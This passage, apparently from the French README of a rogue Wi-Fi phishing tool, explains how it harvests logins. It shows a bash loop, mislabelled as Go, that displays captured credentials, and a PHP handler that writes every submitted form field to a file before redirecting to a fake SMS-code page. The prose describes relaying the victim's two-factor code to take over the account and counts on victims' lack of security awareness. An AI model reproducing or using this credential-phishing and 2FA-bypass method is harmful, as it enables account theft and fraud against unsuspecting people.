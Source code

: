 A ce stade, la fonction s'appelle  `getCredentials`, qui est celui qui sera chargé de surveiller un fichier à partir duquel nous pourrons savoir à tout moment qui a saisi ses informations d'identification, pouvant les voir plus tard en texte clair :


```go
function getCredentials(){

	tput civis; while true; do
		echo -e "\n${yellowColour}[*]${endColour}${grayColour} Esperando credenciales (${endColour}${redColour}Ctr+C para finalizar${endColour}${grayColour})...${endColour}\n${endColour}"
		for i in $(seq 1 60); do echo -ne "${redColour}-"; done && echo -e "${endColour}"
		find \-name datos-privados.txt | xargs cat 2>/dev/null
		for i in $(seq 1 60); do echo -ne "${redColour}-"; done && echo -e "${endColour}"
		sleep 3; clear
	done
}
```

Puisqu'il est probable que la victime ait activé le deuxième facteur d'authentification, avoir ses informations d'identification ne suffit parfois pas... car après la connexion, nous devrons saisir le code que la plateforme envoie à l'appareil mobile associé via SMS.

Ne vous inquiétez pas, tout est compris. Chaque modèle de portail sélectionné possède un fichier `post.php`, où après avoir signalé les informations d'identification à un fichier externe, un `Redirect` vers un autre template de la même plateforme, où le code reçu est demandé :

```php
<?php $file = 'datos-privados.txt'; file_put_contents($file, print_r($_POST, true), FILE_APPEND);?><meta http-equiv="refresh" content="0; url=http://192.168.1.1/portal_2fa/index.php" />
```

Pour ceux qui n'ont pas bien compris le geste, je vais l'expliquer ici : La victime saisit ses identifiants d'accès à la plateforme que vous avez choisie pour continuer à naviguer, vous en tant qu'attaquant recevez ces identifiants en clair depuis la console, puis la victime est redirigé vers un autre portail où il vous est demandé de saisir le SMS reçu. L'astuce est que la victime n'a pas accès à Internet depuis votre point d'accès, elle ne recevra donc jamais de code pour cette session, car elle ne se connecte pas au modèle officiel. La blague est que par derrière, puisque vous avez déjà leurs informations d'identification, vous les validerez immédiatement manuellement sur la vraie plate-forme, donc dans le cas où ils vous demanderaient plus tard le code d'authentification du deuxième facteur, car la victime est maintenant dans ce modèle en attendant le code, un SMS arrivera mais de votre session, pas de la sienne, ce qui lui fera penser qu'une fois saisi, il accédera à son compte.

De cette façon, ils vous fourniront le code SMS de votre session, pouvant ainsi accéder ultérieurement à leur compte en "contournant" cette mesure de protection.

La grande question que certains d'entre vous m'ont posée... mais que se passe-t-il si la victime n'a pas activé le deuxième facteur d'authentification ? Eh bien, dans ce cas, vous avez déjà ses identifiants. Il est possible que la victime soit méfiante et trouve étrange qu'on lui demande le code SMS alors qu'elle n'a même pas configuré cette option, mais c'est la seule façon à laquelle je pouvais penser pour au moins couvrir les deux situations. Je vous dis aussi... un public cible dans la rue n'a pas beaucoup de notions de sécurité et la plupart du temps il ne la comprend pas, la laissant passer sans se douter de rien.

En résumé, si la victime a 2FA, vous pourrez obtenir le code, et si elle ne l'a pas configuré... dans le pire des cas, vous avez déjà ses identifiants, la victime restera dans le nouveau template en attente pour que le code arrive alors qu'ils ne l'ont jamais reçu. Il arrivera et vous accéderez à son compte par derrière.
